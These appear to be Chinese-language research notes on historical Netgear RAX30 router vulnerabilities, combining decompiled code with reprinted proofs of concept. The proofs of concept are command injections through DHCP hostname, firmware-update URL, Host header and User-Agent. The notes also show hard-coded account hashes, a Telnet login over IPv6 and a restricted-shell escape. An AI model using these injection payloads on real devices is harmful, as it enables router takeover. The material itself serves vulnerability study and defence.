





Netgear RAX30 漏洞分析笔记
本文整理参考文章中记录的 Netgear RAX30 历史漏洞，涵盖 DHCP 主机名、固件更新、HTTP 请求头和 IPv6 WAN 服务暴露等问题。以下设备行为、权限、地址和测试输出均对应原研究环境；代码为原文节选，保留其示例逻辑。
LAN 口：udhcpd hostname 命令注入
LAN 侧 DHCP 服务中的命令注入发生在 bin/udhcpd 处理 DHCPREQUEST 数据包时。
下面的代码在 [1] 处读取 DHCP_HOST_NAME 选项，将主机名复制到 lease 结构中的对应字段，并在 [2] 处调用 send_lease_info。
udhcpd · 获取并保存 DHCP hostname
void __fastcall __noreturn dhcpd(int a1, int a2)
{
// truncated...
LABEL_84:
switch ( *state )
{
// truncated...
case DHCPREQUEST:
requested_1 = (unsigned int *)get_option(&packet, DHCP_REQUESTED_IP);
server_id_1 = (int *)get_option(&packet, DHCP_SERVER_ID);
hostname = (const char *)get_option(&packet, DHCP_HOST_NAME); // [1]
option55 = (char *)get_option(&packet, DHCP_PARAM_REQ);
if ( requested_1 )
v7 = *requested_1;
if ( server_id_1 )
v83 = *server_id_1;
v45 = (char *)get_option(&packet, DHCP_VENDOR);
test_vendorid(&packet, v45, &v87);
v46 = v87;
if ( v87 )
goto LABEL_12;
v47 = (unsigned __int8 *)MAX_DHCP_INFORM_COUNT;
break;
// truncated...
}
LABEL_106:
if ( lease )
{
// truncated...
if ( hostname )
{
v51 = *((unsigned __int8 *)hostname - 1);
if ( v51 >= 0x3F )
v51 = 63;
strncpy(lease + 24, hostname, v51);
lease[v51 + 24] = 0;
send_lease_info(0, (int)lease); // [2]
}
// truncated...
}
// truncated...
}在 send_lease_info 中，主机名经 [1] 处复制后，被直接拼接到传给 system 的命令字符串中，最终在 [2] 处执行。
send_lease_info · 主机名进入命令字符串
int __fastcall send_lease_info(int a1, dhcpOfferedAddr *lease)
{
// truncated...
if ( !a1 )
{
// truncated...
if ( body.hostName[0] )
{
strncpy((char *)HostName, body.hostName, 0x40u); // [1]
snprintf((char *)v11, 0x102u, "%s", body.vendorid);
}
else
{
strncpy((char *)v10, "unknown", 0x40u);
strncpy((char *)v11, "dhcpVendorid", 0x102u);
}
sprintf(
command,
"pudil -a %s %s %s %s \"%s\"",
body.macAddr,
body.ipAddr,
(const char *)HostName,
body.option55,
(const char *)v11);
system(command); // [2]
}
// truncated...
}这里的 hostname 最多保留 63 字节。原研究将验证命令放入该字段，通过 DHCP 请求发送给路由器。在研究设备上，该命令以相关服务的 root 权限执行。
DHCP hostname · 原文概念验证脚本
import dhcppython
from ipaddress import IPv4Address
import socket
import sys
def send_requests_packet(hostname):
opt_list = dhcppython.options.OptionList(
[
dhcppython.options.options.short_value_to_object(53, "DHCPREQUEST"),
dhcppython.options.options.short_value_to_object(54, "192.168.5.1"),
dhcppython.options.options.short_value_to_object(50, "192.168.5.11"),
dhcppython.options.options.short_value_to_object(12, hostname),
dhcppython.options.options.short_value_to_object(
55, [1, 3, 6, 15, 26, 28, 51, 58, 59, 43]
),
]
)
pkt = dhcppython.packet.DHCPPacket(
op="BOOTREQUEST", htype="ETHERNET", hlen=6, hops=0,
xid=123456, secs=0, flags=0,
ciaddr=IPv4Address(0), yiaddr=IPv4Address(0),
siaddr=IPv4Address(0), giaddr=IPv4Address(0),
chaddr="DE:AD:BE:EF:C0:DE", sname=b'', file=b'', options=opt_list,
)
print(pkt)
print(pkt.asbytes)
# send DHCP packet to server by udp protocol
pl = pkt.asbytes
SOC = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
SOC.sendto(pl, ('192.168.5.1', 67))
send_requests_packet("a`touch /tmp/test`b")WAN 口：证书验证缺失与 pufwUpgrade URL 命令注入
固件检查请求关闭证书验证
原研究在 WAN 侧抓包时，发现路由器连接了 devcom.up.netgear.com 和 time-e.netgear.com 等域名。
负责固件检查的 pucfu 通过 libfwcheck.so 中的相关接口发起更新检查。检查请求使用数据库中 UpBaseURL 对应的地址：
固件检查 · UpBaseURL
https://devcom.up.netgear.com/UpBackend/curl_post 用于发送 HTTPS POST 请求。以下为原文在地址 0x6B60 附近分析的代码节选：
curl_post · 关闭主机名和证书校验
size_t __fastcall curl_post(const char *url, const char *post_data, void **p_html)
{
/* ... */
((void (*)(int, const char *, ...))fw_debug)(1, " URL is %s\n", url);
curl_easy_setopt(curl, CURLOPT_URL, url);
curl_easy_setopt(curl, CURLOPT_HTTPHEADER, https_hdr);
curl_easy_setopt(curl, CURLOPT_POSTFIELDS, post_data);
curl_easy_setopt(curl, CURLOPT_SSL_VERIFYHOST, 0); // [1]
curl_easy_setopt(curl, CURLOPT_SSL_VERIFYPEER, 0); // [2]
curl_easy_setopt(curl, CURLOPT_NOSIGNAL, 1);
v12 = strlen(post_data);
curl_easy_setopt(curl, CURLOPT_POSTFIELDSIZE, v12);
curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, curl_writedata_cb);
curl_easy_setopt(curl, CURLOPT_WRITEDATA, &s);
if ( curl_easy_perform(curl) )
{
/* ... */
}
/* ... */
}[1] 和 [2] 处分别关闭了 CURLOPT_SSL_VERIFYHOST 与 CURLOPT_SSL_VERIFYPEER。在原研究的网络控制条件下，研究人员可以通过伪造 DHCP、DNS 服务冒充更新服务器。
响应结构示意如下，其中 url 的实际内容省略：
固件检查 · 响应结构示意
{
"status": 1,
"url": "..."
}响应中的 url 被写入 /tmp/fw/cfu_url_cache，供后续更新流程使用。
更新 URL 被拼接到 shell 命令
pufwUpgrade 在更新流程中读取缓存 URL。原文分析了 FwUpgrade_download_FwInfo 与 DownloadFiles 的调用关系，指出 URL 最终进入了命令字符串。
固件下载 · URL 进入命令执行路径
int __fastcall FwUpgrade_download_FwInfo(int option)
{
// ...
while ( 1 )
{
SetFileValue("/data/fwLastChecked", "lastDL_sku", v69);
SetFileValue("/data/fwLastChecked", "lastDL_url", g_url_update);
v4 = DownloadFiles(
&fw_upgrade, "/tmp/fw/dl_fileinfo_unicode", "/tmp/fw/dl_result", 0);
// ...
}
}
int __fastcall DownloadFiles(
const char *url_update, const char *a2, char *filename, int a4)
{
// ...
if ( is_https )
{
// ...
}
else
snprintf(
s,
0x1F4u,
"(curl --fail --insecure %s --max-time %d --speed-time 15 --speed-limit 1000 -o %s 2> %s; echo $? > %s)",
url_update, // [1]
v7,
a2,
"/tmp/curl_result_err.txt",
"/tmp/curl_result.txt");
j_DBG_PRINT("%s:%d, cmd=%s\n", "DownloadFiles", 328, s);
if ( j_pegaPopen(s, "r") )
{
// ...
}
// ...
}URL 未经适当处理直接进入 shell 命令，形成命令注入入口。下面保留原文中用于构造响应的 HTTP 服务片段；其导入、运行环境和其他代码未完整列出。
固件检查响应 · 原文 HTTP 服务片段
response_data = (
'{\r\n'
' "status": 1,\r\n'
' "url": "`touch /tmp/aaa`"\r\n'
'}\r\n'
)
class MyHandler(BaseHTTPRequestHandler):
def do_GET(self):
self.send_response(200)
self.send_header("Content-type", "text/plain")
self.end_headers()
self.wfile.write(response_data)
if __name__ == "__main__":
webServer = HTTPServer(('0.0.0.0', 8000), MyHandler)
print("Server started http://%s:%s" % ('0.0.0.0', 8000))
webServer.serve_forever()
# ...WAN 与 LAN：urlfilterd Host 命令注入
默认情况下，urlfilterd 在端口 80 上监听，但在启用 Block Sites 功能之前，不执行相应过滤操作。

启用后，HTTP 请求被捕获并解析，以检查 Host 是否在黑名单中。

检查完成后，程序调用 system() 记录日志，将主机名直接传入命令，未进行适当验证。

原文通过请求头中的恶意 Host 值，触发 urlfilterd 日志函数中的命令注入。

检查 iptables 规则时，研究人员发现相关端口 80 流量会被转发到 urlfilterd。

原研究据此在 WAN 侧发送请求进行验证，相关代码片段如下：
urlfilterd · 原文请求构造片段
def send_frame(ip, cmd):
arp_r = scapy.ARP(pdst=ip + "/32")
br = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
request = br / arp_r
answered, _ = scapy.srp(request, timeout=1)
test_message = (
"GET / HTTP/1.1\r\nHost: test.org;" + cmd
+ "\r\nConnection: close\r\n\r\n"
)
src = "192.168.12." + str(random.randint(2, 253))
dst = "192.168.12.15"
sport = random.randint(1024, 65535)
dport = 80
packet = Ether(dst=answered[0].answer.hwsrc) / \
IP(src=src, dst=dst) / \
TCP(dport=dport, sport=sport, flags="") / \
Raw(test_message.encode())
ans = srp(
packet,
timeout=TIMEOUT
)LAN 口：puhttpsniff User-Agent 命令注入
对 puhttpsniff 执行 strings 后，可以看到 User-Agent、pudil 命令模板与 NFLOG 规则等字符串：
puhttpsniff · strings 输出节选
$ strings squashfs-root/bin/puhttpsniff
/lib/ld-linux.so.3
(...)
User-Agent:
%255[^
pudil -i %s "%s"
(...)
iptables -w -t filter -D INPUT -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512 2> /var/tmpDebug
iptables -w -t filter -I INPUT -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512
iptables -w -t filter -D FORWARD -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512 2> /var/tmpDebug
iptables -w -t filter -I FORWARD -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512
HTTP sniffer start!!
(...)该程序插入 NFLOG iptables 规则，通过回调处理捕获的数据。下面的反编译片段展示了 User-Agent 的提取和使用过程：
puhttpsniff · User-Agent 进入 system
if ( data_len > 9 )
{
data[data_len] = 0;
result = strstr(data, "User-Agent: ");
if ( result )
{
_isoc99_sscanf(result + 12, "%255[^\r\n]", &user_agent_string);
sprintf(v10, "pudil -i %s \"%s\"", ip_addr, (const char *)&user_agent_string);
return (char *)system(v10);
}
}NFLOG 规则覆盖 INPUT 和 FORWARD 链上的相关流量。在原研究环境中，向 LAN 默认 IP 的 HTTP 服务发送请求即可触达这段处理逻辑。
这里最多提取 255 个字符，并将其拼接到 system 命令中。原文以以下会触发设备重启的请求作为验证：
User-Agent · 原文重启验证请求
curl --user-agent "a\";/sbin/reboot;\"" http://192.168.1.1WAN 口：IPv6 链路本地地址暴露 Telnet 服务
原研究在配置 WAN 侧 DHCP 服务，并通过 LAN 漏洞取得设备 shell 后，检查了进程与监听套接字。结果显示 SSH（TCP 22）、Telnet（TCP 23）等服务同时监听 IPv4 和 IPv6。
WAN 侧的 IPv4 扫描显示相关端口关闭，但对 IPv6 地址的扫描发现了开放端口。下面是原文的 TCP 23 扫描记录：
原研究记录 · IPv6 Telnet 端口扫描
$ nmap -6 -p 23 fe80::6ecd:d6ff:fe44:dd73%eth1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-12-01 12:04 CET
Nmap scan report for fe80::6ecd:d6ff:fe44:dd73
Host is up (0.00061s latency).
PORT STATE SERVICE
23/tcp open telnet
Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds原文指出，相关 ip6tables 访问限制适用于 br0（LAN），而 WAN 侧规则在特定 IPv6 地址配置条件下才生效。当 WAN 只使用链路本地地址时，同一链路上的设备可以访问暴露的服务，包括 webadmin、telnet、ssh 和 soap_serverd 等。
硬编码账户
研究人员通过此前获得的设备访问能力，在 /etc/passwd 中发现了硬编码账户。原文记录如下：
原研究记录 · /etc/passwd 节选
$ cat /etc/passwd
admin:<admin passwd hash>:0:0:Administrator:/:/bin/sh
support:$1$QkcawmV.$VU4maCah6eHihce5l4YCP0:0:0:Technical Support:/:/bin/sh
user:$1$9RZrTDt7$UAaEbCkq.Qa4u0QwXpzln/:0:0:Normal User:/:/bin/sh
nobody:<admin passwd hash>:0:0:nobody for ftp:/:/bin/sh原文使用 John 破解 support 账户的密码，随后通过 Telnet 登录：
原研究记录 · support 账户登录
$ telnet fe80::6ecd:d6ff:fe44:dd73%eth1
Trying fe80::6ecd:d6ff:fe44:dd73%eth1...
Connected to fe80::6ecd:d6ff:fe44:dd73%eth1.
Escape character is '^]'.
BCM96750 Broadband Router
Login: support
Password:
> help
?
help
logout
exit
quit
reboot
brctl
cat
(...)受限 shell
原文记录了通过子 shell、命令分隔符或隐藏命令离开受限 shell 的情况。以下为其中一段交互记录：
原研究记录 · 受限 shell 中的命令执行
> ifconfig a; /bin/ash
ifconfig a ; /bin/ash
ifconfig: a: error fetching interface information: Device not found
BusyBox v1.31.1 (2022-05-11 10:37:23 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.
# uname -a
Linux RAX30 4.19.151 #1 SMP PREEMPT Wed May 11 10:27:11 CST 2022 armv7l
#原文还讨论了依据 WAN 接口 MAC 地址推断 IPv6 链路本地地址的方式，并引用 RFC 4291 第 2.5.6 节及附录 A。这里记录的是原研究中设备的地址生成行为。